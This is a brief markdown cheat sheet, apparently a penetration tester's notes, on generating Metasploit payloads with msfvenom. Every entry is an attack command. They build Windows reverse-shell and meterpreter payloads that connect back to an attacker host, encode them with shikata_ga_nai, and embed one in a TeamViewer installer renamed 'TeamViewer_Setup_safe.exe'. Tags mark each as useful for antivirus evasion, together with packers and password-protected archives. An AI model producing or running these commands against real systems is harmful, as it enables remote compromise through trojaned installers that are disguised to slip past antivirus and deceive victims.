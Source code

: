 # MSFconsole

# MSFvenom
## Generate Payload
- msi
```shell-session
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=445 -f msi > shell.msi
```
- SGN encoded
Can be useful in #av-evasion 
```shell-session
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=192.169.0.36 LPORT=80 -b "\x00" -e x86/shikata_ga_nai -f exe -o /root/Desktop/metasploit/IamNotBad.exe
```
- Preserve template (-k) and inject payload in a new thread with custom template (-x)
Can be useful in #av-evasion 
```shell-session
$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=8080 -k -x ~/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/TeamViewer_Setup_safe.exe -i 5
```

Can be combined with #archive with password, or #packers for #av-evasion 
# Stageless Payload
- Sometimes better for #av-evasion 
- More stable than staged if bandwidth/latency issues

# Encoding
- #av-evasion (might not be useful now)
- cross-architecture exploit
